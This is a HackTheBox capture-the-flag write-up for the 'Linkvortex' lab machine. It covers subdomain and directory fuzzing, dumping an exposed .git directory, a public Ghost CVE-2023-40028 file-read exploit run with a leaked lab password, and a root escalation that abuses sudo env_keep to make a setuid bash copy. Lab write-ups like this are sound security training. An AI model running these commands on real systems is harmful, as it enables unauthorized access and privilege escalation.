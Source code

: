 ```yaml
---
layout: post
title: "Linkvortex"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



```
sudo nmap -sC -sV -p- 10.10.11.47 -T4 -oN nmap
```

just web 


### Vhosts Fuzzing

```bash
ffuf -u http://linkvortex.htb  -H "Host: FUZZ.linkvortex.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fc 301
```

![[Pasted image 20241223182105.png]]

### Directory Fuzzing

the `wordlist I usually use didn't catch anything /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  but  /usr/share/seclists/Discovery/Web-Content/common.txt got me some juicy directories`

```bash
ffuf -u http://dev.linkvortex.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

![[Pasted image 20241223182412.png]]

`.git` directory I will use `git-dumper to dump all the files`

### Git dumper

```bash
python3 -m venv lol ; source lol/bin/activate
pip3 install git-dumper
```


```bash
git-dumper  http://dev.linkvortex.htb/.git   git-vortex
```


### GIT enumerate

I start enumerating the git directory and I checked the `diff` between the current and the commit before that 

```bash
git diff 
```

![[Pasted image 20241223183804.png]]

### foothold the main web

![[Pasted image 20241223184720.png]]

this version of `Ghost` is vulnerable to path traversal https://github.com/0xyassine/CVE-2023-40028/tree/master


```bash
./CVE-2023-40028 -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45'
```


and we got a prompt we can use it to read file , from the diff of commit , I notice an interesting file
`/var/lib/ghost/config.production.json`
![[Pasted image 20241223185534.png]]`


ssh into user

### root

```bash
sudo -l

Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```


scripts

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

`the script first check if the CHECK_CONTENT is a non empty string , then follow the symlink and remove the extenstion if something critical is found in this part the script will stip else move the png file to the /var/quarantined `

the trick here is we control the value of `CHECK_CONTENT` so if we set a malicious script it will be ran in this if 

```bash
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
```

in order to reach that we need to get in the first if we can do that by setting a symbolic link , then running the script as `sudo` and abusing the `env_keep` to setting our malicious script at `CHECK_CONTENT`


```bash
touch image.png ; ln -s image.png link.png ; echo 'cp /bin/bash /home/bob/exploit && chmod 4777 /home/bob/exploit' > /tmp/trick ; chmod +x /tmp/trick ; export CHECK_CONTENT=/tmp/trick ; sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link.png ; /home/bob/exploit -p
```
